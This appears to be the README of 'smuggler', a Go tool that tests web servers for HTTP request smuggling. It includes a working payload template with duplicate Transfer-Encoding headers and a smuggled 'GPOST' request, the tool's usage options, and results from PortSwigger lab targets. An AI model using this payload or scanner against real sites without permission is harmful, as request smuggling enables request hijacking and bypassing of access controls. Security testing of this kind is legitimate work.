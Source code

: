 # smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Example template:
```
Match: Unrecognized method GPOST
Request: |+
  POST {{.Path}} HTTP/1.1
  Host: {{.Host}}
  Content-Type: application/x-www-form-urlencoded
  Content-length: 4
  Transfer-Encoding: chunked
  Transfer-encoding: cow

  5c
  GPOST / HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15

  x=1
  0


```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -header string
    	Custom header to add to requests, example: '-header "User-Agent: garlic0x1"'
  -proxy string
    	Set the environment proxy, for example: http://example.com:8080
  -templates string
    	Directory of YAML templates to test (default "templates/")
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -tries int
    	Number of requests to send to test each template (default 5)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test
https://ace51fd41fcbfab0c03e376f00890063.web-security-academy.net/ is vulnerable, payload: templates/template.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template2.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template3.txt

```
